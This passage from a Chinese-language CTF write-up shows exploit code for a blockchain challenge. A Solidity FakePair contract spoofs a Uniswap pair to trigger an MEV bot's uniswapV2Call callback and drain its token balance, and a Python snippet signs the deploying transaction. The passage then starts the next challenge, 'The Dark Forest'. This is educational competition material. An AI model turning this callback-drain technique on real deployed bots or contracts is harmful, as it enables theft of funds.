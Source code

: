 ```solidity

contract FakePair {
    function factory() external pure returns (address) {
        return 0x164e31a6Ac83D5EDaE2139Add30099485D15d138;
    }
    function solve(Bot bot) external {
        uint balance = IERC20(0x9d9901f3b034427dd0e6Cf1c70aE5E4d94Ed19e7).balanceOf(address(bot));
        bot.uniswapV2Call(address(bot), 0, 0, abi.encode(address(this), address(0), balance, uint(0), true));
    }
    function swap(uint amount0Out, uint amount1Out, address to, bytes calldata data) external {
    }
}

contract Solver {
    constructor() {
        FakePair f = new FakePair();
        f.solve(Bot(0x607D86B806E7b2993438E82af2236C786a0Ff780));
    }
}
```

拿到合约后，可以用下面的代码签名：

```python
from web3 import Web3

w3 = Web3()
pk = '11451411' * 8
acc = w3.eth.account.from_key(pk)
print(acc.address)

tx = {
    'from': acc.address,
    'nonce': 1,
    'gas': 10000000,
    'gasPrice': 10**10,
    'data': '0x' + open('code_1.txt').read(),
    'chainId': 2023,
}
signed = w3.eth.account.sign_transaction(tx, pk)
print(signed.rawTransaction.hex())
```

## The Dark Forest

本题和上一题相比，所有函数都加上了对 `msg.sender` 或 `msg.origin` 的限制。于是不再能直接调用 MEV Bot。

Bot 的 Python 代码中，会先对套利交易进行模拟，如果模拟通过再发送：

```python
bot.functions.simulate(pair1_address, pair2_address, amount1, amount2, amount3, direction).call(
    {'nonce': nonce, 'from': acct.address, 'gas': 10 ** 6, 'gasPrice': 10 ** 11}
)
tx = bot.functions.arbitrage(pair1_address, pair2_address, amount1, amount2, amount3, direction).build_transaction(
    {'nonce': nonce, 'from': acct.address, 'gas': 10 ** 6, 'gasPrice': 10 ** 11}
)
```
